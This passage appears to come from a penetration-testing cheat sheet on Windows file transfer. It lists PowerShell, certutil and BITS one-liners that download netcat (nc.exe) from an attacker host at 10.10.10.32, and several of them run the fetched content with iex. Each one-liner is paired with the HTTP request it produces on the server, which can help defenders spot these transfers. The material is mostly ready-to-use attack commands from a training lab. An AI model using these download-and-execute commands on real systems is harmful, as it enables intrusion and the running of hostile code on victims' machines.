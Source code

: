 - Server

```powershell
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

#### Msxml2

- Client

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText
```

- Server

```powershell
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

#### Certutil

- Client

```powershell
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

- Server

```powershell
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

#### BITS

- Client 

```powershell
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t; 
iex $r
```
